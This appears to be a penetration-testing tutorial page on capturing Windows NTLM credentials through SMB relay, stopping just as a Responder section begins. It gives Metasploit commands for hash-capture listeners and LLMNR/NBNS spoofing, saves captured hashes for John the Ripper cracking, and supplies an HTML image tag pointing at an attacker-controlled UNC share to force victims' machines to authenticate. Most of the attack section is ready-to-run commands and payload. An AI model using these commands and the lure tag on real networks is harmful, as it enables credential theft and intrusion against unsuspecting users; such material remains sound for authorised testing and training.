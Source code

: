 ## <mark style="color:red;">SMB Relay with Metasploit</mark>

The first item we need to address in this exploitation process, is to create a listening SMB service that will both accept incoming connections, and send back a fixed challenge. As you can imagine, we use a fixed challenge to help us in decrypting the response. Although there are many tools that allow us to do this, we will use the following Metasploit module:

```
auxiliary/server/capture/smb
```

```
use auxiliary/server/capture/http_ntlm
set JOHNPWFILE httpntlm.txt
run
use auxiliary/server/capture/smb
set JOHNPWFILE smbhashes.txt
run
use auxiliary/spoof/llmnr/llmnr_response
set spoofip 0.0.0.0
set interface vboxnet0
run
use auxiliary/spoof/nbns/nbns_response
set interface vboxnet0
run
```

set the **JOHNPWFILE option** in order to tell Metasploit to automatically save the hashes to a file. Notice that these hashes will be automatically saved and formatted to work with john the ripper.

```
set JOHNPWFILE hashpwd
```

Once the Metasploit listener is set up, we can move on the next step:

One of the easiest ways to force the initiation of the NTLM protocol is through SMB authentication. For example, we can embed a Universal Naming Convention (UNC) path ( \SERVER\_IP\SHARE ) into an email message or a web page.

This again, will force the victim’s system to authenticate to the SMB listener on our machine. The following HTML tag will do just fine:

```
<img src="\\192.168.102.147\ADMIN$">
```

It is very useful to know that when the password length is less than or equal to seven characters (i.e. 1235467), the last 8 bytes of the NTLM response are always the same: **2f85252cc731bb25.**

{% embed url="https://blog.rapid7.com/2016/07/26/capturing-credentials-on-an-internal-network/" %}

## <mark style="color:red;">Using Responder</mark>

first go to responder config file and disable smb and http:
